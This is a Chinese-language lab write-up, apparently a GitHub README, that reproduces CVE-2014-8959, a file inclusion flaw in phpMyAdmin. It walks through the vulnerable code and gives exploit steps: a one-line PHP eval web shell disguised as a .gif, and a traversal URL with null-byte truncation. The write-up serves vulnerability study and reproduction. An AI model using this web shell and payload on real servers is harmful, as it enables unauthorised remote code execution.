

# CVE-2014-8959

CVE-2014-8959是phpMyAdmin的一个任意文件包含漏洞。

## 环境重现

```sh
docker run -d -i --name cve-2014-8959 -p 80:80 xk0n/cve-2014-8959
```

## 影响版本

- 4.0.x     4.0.10.6以下
- 4.1.x     4.1.14.7以下
- 4.2.x     4.2.12以下

## 漏洞成因

`libraries/gis/pma_gis_factory.php`的 `$type_lower`变量未过滤，直接`include_once`导致的任意文件包含

```php
class PMA_GIS_Factory
{
    /**
     * Returns the singleton instance of geometric class of the given type.
     *
     * @param string $type type of the geometric object
     *
     * @return object the singleton instance of geometric class of the given type
     * @access public
     * @static
     */
    public static function factory($type)
    {
        include_once './libraries/gis/pma_gis_geometry.php';

        $type_lower = strtolower($type);
        if (! file_exists('./libraries/gis/pma_gis_' . $type_lower . '.php')) {
            return false;
        }
        if (include_once './libraries/gis/pma_gis_' . $type_lower . '.php') {
            //...
        }
    }
}
```

多个文件在调用这个类的factory函数时，也没有经过严格检查，就将用户输入传给了参数。如`gis_data_editor.php`在调用factory函数时，就可以被我们利用。

`gis_data_editor.php`的22行到63行如下：

```php
// Get data if any posted
$gis_data = array();
if (PMA_isValid($_REQUEST['gis_data'], 'array')) {
    $gis_data = $_REQUEST['gis_data'];
}

$gis_types = array(
    'POINT',
    'MULTIPOINT',
    'LINESTRING',
    'MULTILINESTRING',
    'POLYGON',
    'MULTIPOLYGON',
    'GEOMETRYCOLLECTION'
);

// Extract type from the initial call and make sure that it's a valid one.
// Extract from field's values if availbale, if not use the column type passed.
if (! isset($gis_data['gis_type'])) {
    if (isset($_REQUEST['type']) && $_REQUEST['type'] != '') {
        $gis_data['gis_type'] = strtoupper($_REQUEST['type']);
    }
    if (isset($_REQUEST['value']) && trim($_REQUEST['value']) != '') {
        $start = (substr($_REQUEST['value'], 0, 1) == "'") ? 1 : 0;
        $gis_data['gis_type'] = substr(
            $_REQUEST['value'], $start, strpos($_REQUEST['value'], "(") - $start
        );
    }
    if ((! isset($gis_data['gis_type']))
        || (! in_array($gis_data['gis_type'], $gis_types))
    ) {
        $gis_data['gis_type'] = $gis_types[0];
    }
}
$geom_type = $gis_data['gis_type'];

// Generate parameters from value passed.
$gis_obj = PMA_GIS_Factory::factory($geom_type);
```

从`REQUEST`中获取`gis_data`数组，`$gis_data['gis_type']`如果存在，则直接将其传给漏洞函数了。

## Exploit

这个漏洞利用有两个前提：

1. 能登陆phpMyAdmin，满足phpmyadmin的安全检查
2. 需要截断，需要满足下面的要求之一
   - PHP的版本需要小于 5.3.4(参考：[CVE-2006-7243](http://www.cvedetails.com/cve/CVE-2006-7243/))且gpc关闭
   - 利用长文件名截断

为满足上述条件，使用PHP 5.2.17 和 [phpmyadmin 4.0.3](https://files.phpmyadmin.net/phpMyAdmin/4.3.0/phpMyAdmin-4.3.0-all-languages.zip)版本进行测试。并在pma同级目录下有一个包含一句话木马的图片文件。

目录结构：

```sh
$ tree -L 1 -F
.
├── 1.gif
├── index.php
├── info.php
└── pma/
```

1.gif内容：

```php
<?php
@eval($_POST[a]);
?>
```

利用步骤：

1. 使用 pmatest/pmatest 作为用户名密码登陆phpMyAdmin
2. 从url中获取token
3. 访问`http://<IP>/pma/gis_data_editor.php?token=effa7667f41b469bde9c43d6e814f9a4&&gis_data[gis_type]=/../../../../1.gif%00`，同时post`a=phpinfo();`



## 参考

- http://bobao.360.cn/learning/detail/113.html
- https://www.phpmyadmin.net/security/PMASA-2014-14/